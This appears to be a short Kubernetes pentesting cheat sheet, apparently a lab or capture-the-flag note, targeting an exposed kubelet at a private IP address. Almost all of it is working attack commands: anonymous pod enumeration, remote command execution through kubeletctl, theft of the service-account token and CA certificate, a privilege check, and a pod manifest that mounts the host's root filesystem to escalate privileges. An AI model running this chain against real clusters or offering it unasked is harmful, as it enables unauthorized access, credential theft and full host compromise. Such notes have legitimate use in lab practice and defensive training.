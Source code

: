 **Kubernetes**
#Kubernetes
 
- Extracting Pods with anonymous access:
```sh
curl https://10.129.10.11:10250/pods -k | jq .
#or 
kubeletctl -i --server 10.129.10.11 pods
```
- Available command : 
```sh
 kubeletctl -i --server 10.129.10.11 scan rce
 #then get a root access
 kubeletctl -i --server 10.129.10.11 exec "id" -p nginx -c nginx
```

- Extracting Tokens : 

```sh
kubeletctl -i --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token
```
- Extracting Certificate : 
```sh
kubeletctl --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt
```

- List Privileges
```sh
export token=`cat k8.token`
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.10.11:6443 auth can-i --list
#output

Resources										Non-Resource URLs	Resource Names	Verbs 
selfsubjectaccessreviews.authorization.k8s.io		[]					[]				[create]
selfsubjectrulesreviews.authorization.k8s.io		[]					[]				[create]
pods											    []					[]				[get create list]
```

- Create our own YAML pod : 
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: privesc
  namespace: default
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
```
